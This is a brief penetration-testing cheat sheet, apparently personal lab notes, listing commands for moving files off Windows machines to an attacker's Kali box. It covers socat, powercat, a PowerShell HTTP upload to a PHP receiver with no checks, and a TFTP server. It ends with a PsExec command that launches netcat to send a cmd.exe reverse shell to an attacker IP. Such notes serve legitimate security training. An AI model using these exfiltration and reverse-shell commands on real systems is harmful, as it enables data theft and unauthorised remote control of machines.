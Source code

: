 #### Socat listener for file to send
```
sudo socat TCP4-LISTEN:<PORT>,fork file:<FILE>
```

#### Socat get file
```
socat TCP4:<IP>:<PORT> file:<FILE>,create
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

#### Upload Windows data through HTTP Post request
make /var/www/upload.php on kali
```
<?php
$uploaddir = '/var/www/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload file in Windows client
```
powershell (New-Object System.Net.WebClient).UploadFile('http://<IP>/upload.php', '<FILE>')
```

#### Upload through tftp (over udp)
Install tftp on kali
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On windows client to send file
```
tftp -i <IP> put important.docx
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <ATTACKER IP> <ATTACKER PORT> -e cmd.exe
```
